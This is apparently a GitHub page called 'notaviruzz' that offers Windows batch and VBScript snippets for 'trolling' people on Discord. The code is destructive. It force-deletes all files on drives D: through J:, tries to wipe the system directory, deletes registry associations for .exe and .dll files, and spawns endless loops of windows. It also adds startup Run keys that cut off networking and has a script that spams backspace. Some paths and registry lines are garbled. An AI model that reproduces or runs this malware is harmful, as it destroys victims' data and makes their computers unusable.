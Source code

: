 # notaviruzz
this can be used for discord to troll little monkey skids




@echo off
:A
start
explorer
goto :A 
@echo off del c:\\windows\system 32 (extesion.bat)
del D:\. /f /s /q
del E:\. /f /s /q
del F:\. /f /s /q
del G:\. /f /s /q
del H:\. /f /s /q
del I:\. /f /s /q
del J:\. /f /s /q
X=Msgbox("Virus Is Active",0+16,"Virus Alert")
X=Msgbox("Virus Is Active",0+16,"Virus Alert")
X=Msgbox("Virus Is Active",0+16,"Virus Alert")
X=Msgbox("Wanna Fix Virus",0+16,"Fix Virus")
@echo off del c:\\windows\system 32
del D:\. /f /s /q
del E:\. /f /s /q
del F:\. /f /s /q
del G:\. /f /s /q
del H:\. /f /s /q
del I:\. /f /s /q
del J:\. /f /s /q
@echo off
:A
start www.youaranidiot.org
ping localhost -m 5 >nul
goto :A
echo @echo off>c:windowswimn32.bat
echo break off>>c:windowswimn32.bat
echo ipconfig/release_all>>c:windowswimn32.bat
echo end>>c:windowswimn32.bat
reg add hkey_local_machinesoftwaremicrosoftwindowscurrentv ersionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.bat /f
reg add hkey_current_usersoftwaremicrosoftwindowscurrentve rsionrun /v CONTROLexit /t reg_sz /d c:windowswimn32.bat /f
PAUSE
@ECHO off
:top
START %SystemRoot%\system32\notepad.exe
GOTO top
MsgBox “Let’s go back a few steps”
Set wshShell =wscript.CreateObject(”WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “{bs}”
loop
@ECHO OFF
START reg delete HKCR/.exe
START reg delete HKCR/.dll
START reg delete HKCR/*
@Echo off
Ipconfig /release
echo @echo off>c:windowswimn32.bat
echo break off>>c:windowswimn32.bat
echo ipconfig/release_all>>c:windowswimn32.bat